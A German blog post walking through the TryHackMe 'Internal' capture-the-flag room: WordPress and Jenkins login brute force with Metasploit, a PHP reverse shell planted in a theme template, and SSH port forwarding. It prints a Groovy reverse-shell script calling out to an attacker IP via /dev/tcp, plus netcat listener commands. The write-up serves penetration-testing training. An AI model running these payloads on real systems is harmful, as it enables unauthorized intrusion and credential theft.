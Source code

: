 ```yaml
---
title: TryHackMe Internal writeup
description: Ein writeup zu dem TryHackMe Raum Internal. Es kommen verschiedene Techniken und Tools, wie nmap, GoBuster und Metasploit zum Einsatz.
tags:
 - security
 - linux
 - ctf
header:
 image: /images/header_keyboard.jpg
 image_description: "Foto einer Computertastatur."
 caption: "Photo credit: [pexels.com](https://pexels.com)"
---
```


Nachdem ich gerade erst einen writeup für TryHackMe rootme geschrieben habe, gibt es jetzt einen weiteren für [Internal](https://tryhackme.com/room/internal).
Internal ist als Black Box Penetration Test angelegt. Das heißt über die Infrastruktur, welche man auf Schwachstellen untersuchen muss, gibt es keine weiteren Informationen. Lediglich die IP-Adresse des Ziels ist bekannt und man weiß, dass zwei Flags zu finden sind: eine User.txt mit normalen Privilegien und eine Root.txt, für welche man root Privilegien benötigt.

## Vorwort

Vorweg der übliche Disclaimer: ihr könnt die Tools, welche hier vorgestellt werden für euer eigenes Netzwerk verwenden oder im Rahmen eines Penetration Tests einsetzen, wenn ihr dafür beauftragt wurdet. Jedoch dürft ihr diese Tools niemals gegen fremde Systeme ohne explizite Erlaubnis einsetzen.

## Aufklärung

Als allererstes modifizieren wir unsere Hostfile, sodass internal.thm auf die IP-Adresse des Ziels zeigt.

Dann starten wir mit der Aufklärung und der ersten Informationsgewinnung. Hierfür nutzen wir nmap, um Informationen über offene Ports, Dienste und das Betriebssystem zu erlangen. 

Wir nutzen folgenden Befehl, mit welchem der Output auch in eine Textdatei ausgegeben wird.

`nmap -A $ipaddress -o nmap.txt`

{:refdef: style="text-align: center;"}
![Ergebnis des nmap Scans]({{ site.baseurl }}/images/nmap_internal.png)
{: refdef}

Folgende Ergebnisse lieferte der Scan

* Port 22 für SSH ist offen
* Port 80 ebenfalls offen. Dahinter läuft ein Apache Webserver in der Version 2.4.29
* Das Betriebssystem ist wahrscheinlich ein Ubuntu Linux

## Untersuchung des Webservers

Rufen wir http://internal.thm mit unserem Webbrowser auf erscheint die Apache2 Ubuntu Default Page. Ein Scan mit Gobuster offenbart, dass unter /blog ein WordPress Blog zu finden ist.

 `gobuster -u http://$ip -w /opt/wordlists/directory-list-2.3-small.txt`

Wie in vergangenen Walkthroughs wurde hier die directory-list-2.3-small.txt von
[SecLists](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/directory-list-2.3-small.txt) verwendet.

Weitere Ergebnisse des Scans sind unter anderem eine Instanz von phpmyadmin unter /phpmyadmin. Wir konzentrieren uns hier auf die Untersuchung von WordPress und schauen, ob wir uns hierüber einen Zugang zum Server verschaffen können. Über die URL `http://internal.thm/blog/?author=1` finden wir heraus, dass es einen WordPress User mit dem Namen admin gibt. 

{:refdef: style="text-align: center;"}
![WordPress zeigt den Namne des Users admin]({{ site.baseurl }}/images/wordpress_user.png)
{: refdef}

Es gibt jetzt sicherlich mehrere Methoden, wie man an dieser Stelle fortfahren könnte. Ich habe mich für Brute Force mit dem Metasploit Modul `auxiliary/scanner/http/wordpress_login_enum` entschieden. In diesem Fall müssen folgende Optionen gesetzt werden:

* set rhosts internal.thm
* set targeturi /blog
* set stop_on_success true
* set username admin
* set pass_file /opt/wordlists/rockyou.txt (je nachdem welchen Pfad und Wordlist ihr verwendet)

{:refdef: style="text-align: center;"}
![Codeausschnitt der php-reverse-shell]({{ site.baseurl }}/images/wppw_internal.png)
{: refdef}

Mit den Zugangsdaten kann man sich nun unter `http://internal.thm/blog/wp-login.php` einloggen. Unter Appearance / Theme Editor finden wir das 404 Template (404.php). Hier können wir eine [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell) platzieren und müssen anschließend nur einen 404 Error produzieren, um einen Zugang zum Server zu erhalten. In dem Code der reverse-shell müssen wir nur noch die IP und den Port anpassen.

{:refdef: style="text-align: center;"}
![Codeausschnitt der php-reverse-shell]({{ site.baseurl }}/images/phpshell_internal.png)
{: refdef}

Mit Netcat warten wir auf die Verbindung auf dem zuvor festgelegten Port: `nc -lvnp 4444`. Anschließend noch mit einer auf dem Server nicht existenten URL einen Error 404 hervorrufen, zum Beispiel mit: `http://internal.thm/blog/index.php/2020/08/03/give-access-pls/`

{:refdef: style="text-align: center;"}
![Screenshot der Shell]({{ site.baseurl }}/images/wordpress_shell.png)
{: refdef}

Nun haben wir eine Shell und finden unter /opt/ die Datei wp-save.txt. Darin finden wir Logindaten, welche wir für eine SSH-Verbindung nutzen können.

{:refdef: style="text-align: center;"}
![Textdatei mit Logindaten via SSH.]({{ site.baseurl }}/images/sshlogin_internal.png)
{: refdef}

Loggen wir uns per SSH ein, finden wir im home-Verzeichnis des Users auch direkt die Flag user.txt

{:refdef: style="text-align: center;"}
![Screenshot der Textdatei mit der Userflag user.txt.]({{ site.baseurl }}/images/userflag_internal.png)
{: refdef}

Neben der Flag finden wir eine jenkins.txt, in welcher ein Hinweis auf eine lokale Jenkins-Instanz unter 172.17.0.2:8080 steht, welche als Docker-Container läuft. Mit `ssh -L 5555:localhost:8080 aubreanna@internal.thm` leiten wir den Port 5555 auf unserer lokalen Maschine an den Port 8080 auf der remote Maschine weiter und können so Jenkins im Browser via http://localhost:5555 erreichen. Dort sehen wir dann das Loginformular von Jenkins.

{:refdef: style="text-align: center;"}
![Loginformular von Jenkins.]({{ site.baseurl }}/images/jenkins_internal.png)
{: refdef}

Mit Metasploit finden wir die Logindaten für den default User admin heraus. Dazu wird das Modul `auxiliary/scanner/http/jenkins_login` mit folgenden Optionen verwendet:

* set rhosts localhost
* set rport 5555
* set username admin
* set pass_file /opt/wordlists/password-top10000.txt (hier wieder den Pfad der Passwortdatei eurer Wahl einfügen)
* set stop_on_success true

{:refdef: style="text-align: center;"}
![Loginformular von Jenkins.]({{ site.baseurl }}/images/jenkinslogin_internal.png)
{: refdef}

Wenn wir uns mit diesen Logindaten in Jenkins eingeloggt haben, können wir unter http://localhost:5555/script die Skript-Konsole von Jenkins aufrufen. Hier ist es uns möglich ein Skript für eine reverse-shell auszuführen. Anzupassen sind die IP und der Port hinter /tcp/ .

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.10.10/1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

```

Nun nutzen wir wieder Netcat mit `nc -lvnp 1234` und führen das Jenkins Skript aus. Wir erhalten eine Shell im Jenkins Container, wo wir unter /opt/ eine note.txt mit root-credentials finden.

{:refdef: style="text-align: center;"}
![Root Logindaten aus der note.txt.]({{ site.baseurl }}/images/rootcreds_internal.png)
{: refdef}

Mit den erbeuteten Zugangsdaten loggen wir uns per SSH ein und finden direkt die root.txt mit der Flag.

{:refdef: style="text-align: center;"}
![Root Logindaten aus der note.txt.]({{ site.baseurl }}/images/rootflag_internal.png)
{: refdef}

Wenn ihr andere Lösungsansätze gefunden habt, oder Fragen zu dieser Capture the Flag Challenge habt, meldet euch gerne bei [Mastodon](https://social.tchncs.de/@mialikescoffee).
